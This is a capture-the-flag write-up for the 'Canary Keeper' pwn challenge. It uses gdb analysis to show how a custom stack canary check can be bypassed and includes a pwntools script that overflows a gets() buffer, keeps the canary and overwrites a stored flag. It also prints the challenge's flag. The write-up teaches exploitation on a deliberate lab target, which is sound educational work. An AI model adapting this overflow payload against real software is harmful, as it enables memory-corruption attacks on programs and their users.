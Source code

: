 # Canary Keeper - 100 points - 202 solves
## Description
My friend gave me this executable, but it keeps giving me errors. Can you get the flag?

---
We are given a executable named `provided`.

The name of the challenge is hinting for the canary, a common defense in executables,
so let's check the executable defenses:

```shell
pwn checksec provided
Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

It doesn't seem to be built with a canary onto the stack, maybe they implemented
a custom one.

Opening up gdb and looking for functions:
![gdb-functions](gdb-functions.png "executable functions inside gdb")

Disassemnblying main:
![gdb-main](disassembly-main.png "disassemblying main function")

Interesting values that are put onto the stack.
Breakpointing at *main+96 and looking at the stack, we get this:
![gdb-stack](gdb-stack.png "stack after the words are loaded")

So we have a hint of what the program is doing. It loads the word canary into
the stack, and then places the word FLAG.
Our input is being read with a `gets` function which is overflow vulnerable, so
we need to discover the offset which we need to add to hit our "canary", manipulate
it, and then find how to get our flag.
So let's look into the check_canary function.

![gdb-check-canary](disassembly-check-canary.png "disassembly of the check canary function")

And then, the check flag,
![gdb-check-flag](disassembly-check-flag.png "disassembly of the check flag function")


Both functions return 1 if the values compared are equal, because of the `sete`
instruction, as seen here.

![return-values](return-value.png "return values of the check functions")

`sete` sets its argument to `1` if the ZF(zero flag)
is set, and `0` otherwise. And `test eax,eax` sets the ZF if the operands are 
equal.

Now looking at the main function again, and trying to draw the exec flow,

![main execution flow](main-function-return-analysis.png "main function execution flow")


*Take a deep breath.*

In summary: 
- checks for the canary, if `canary == canary`, proceeds to `check_flag`,
if not, exit.
- checks for the flag, if `flag != flag`, proceeds to print the flag,
if not, exit.

So we need to, overflow, keep the canary, change the flag, profit.
Finding the offset.

![finding-the-offset](offset.png "finding the offset needed to overflow")

So 72 * `A`s, and the 73th overflows, so the 73th is the `0x00`, string ending 
character.

exploit code:
```python
#!/usr/bin/env python
from pwn import *
import sys

p = ELF("./provided")

io = p.process()

if "remote" in sys.argv:
    io = remote('challs.bcactf.com', 32101)

payload = b"A"*72
payload += b"\x00"
payload += b"canary"
payload += b"\x00"
payload += b"h4ck3d"
payload += b"\x00"

io.recvuntil(b'Enter a string:')
io.sendline(payload)
print(io.recvline())
```

![flag](flag.png "execution of exploit code, and flag")

`bcactf{s1mple_CANaRY_9b36bd9f3fd2f}`
